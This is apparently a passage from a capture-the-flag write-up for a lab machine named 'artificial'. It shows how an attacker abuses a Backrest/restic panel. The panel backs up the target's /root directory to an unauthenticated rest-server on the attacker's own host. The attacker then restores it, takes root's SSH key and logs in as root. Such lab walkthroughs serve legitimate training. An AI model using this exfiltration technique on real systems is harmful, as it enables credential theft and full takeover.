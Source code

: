 ```bash
rest-server --listen :555 --no-auth
Data directory: /tmp/restic
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:555
```

And from the backrest panel, we create a repository and execute the following command:

```bash
/opt/backrest/restic -r rest:http://10.10.16.33:555/repo init
```

Next, we send a backup of /root:

```bash
/opt/backrest/restic -r rest:http://10.10.16.33:555/repo backup /root
```

From our machine, we list snapshots:

```bash
restic -r /tmp/restic/repo snapshots
enter password for repository: 
repository b473ab6a opened (version 2, compression level auto)
created new cache in /home/kali/.cache/restic
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
51c80d3a  2025-07-07 16:22:54  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
```

Now we restore the snapshot of the /root backup:

```bash
restic -r /tmp/restic/repo restore 51c80d3a --target ./restored
enter password for repository: 
repository b473ab6a opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
restoring snapshot 51c80d3a of [/root] at 2025-07-07 14:22:54.99961818 +0000 UTC by root@artificial to ./restored
Summary: Restored 80 files/dirs (4.299 MiB) in 0:00
```

Now we have access to the /root directory where there is an rsa key:

```bash
ls -la                                    
total 12
drwx------ 6 kali kali  220 Jul  7 13:46 .
drwx------ 3 kali kali   60 Jul  7 16:26 ..
lrwxrwxrwx 1 kali kali    9 Jun  9 11:37 .bash_history -> /dev/null
-rw-r--r-- 1 kali kali 3106 Dec  5  2019 .bashrc
drwxr-xr-x 3 kali kali   80 Mar  3 22:52 .cache
drwxr-xr-x 3 kali kali   60 Oct 19  2024 .local
-rw-r--r-- 1 kali kali  161 Dec  5  2019 .profile
lrwxrwxrwx 1 kali kali    9 Oct 19  2024 .python_history -> /dev/null
-rw-r----- 1 kali kali   33 Jul  7 13:46 root.txt
drwxr-xr-x 2 kali kali   80 Jun  9 15:57 scripts
drwx------ 2 kali kali   80 Mar  4 23:40 .ssh
```

So we can connect to the machine as root:

```bash
ssh root@10.10.11.74 -i id_rsa
root@artificial:~# whoami
root
```